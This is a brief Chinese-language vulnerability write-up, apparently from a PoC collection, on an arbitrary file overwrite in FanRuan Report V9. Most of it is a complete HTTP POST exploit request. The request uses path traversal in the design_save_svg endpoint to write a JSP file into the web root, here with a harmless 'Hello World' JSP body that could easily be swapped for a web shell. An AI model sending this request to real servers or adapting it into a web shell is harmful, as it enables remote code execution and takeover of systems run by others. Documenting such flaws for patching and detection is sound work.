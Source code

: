 # 

# 帆软报表 V9 任意文件覆盖文件上传

## 漏洞描述

帆软 V9 存在任意文件覆盖，导致攻击者可以任意文件上传

## 漏洞影响

```
帆软 V9
```

## 漏洞复现

![314e84b5-e2ac-4e12-9942-653a8b2445a4](./images/202202091128879.png)

```plain
POST /WebReport/ReportServer?op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update.jsp  HTTP/1.1
Host: 192.168.10.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=DE7874FC92F0852C84D38935247D947F; JSESSIONID=A240C26B17628D871BB74B7601482FDE
Connection: close
Content-Type:text/xml;charset=UTF-8

Content-Length: 74

{"__CONTENT__":"<%out.println(\"Hello World!\");%>","__CHARSET__":"UTF-8"}
```


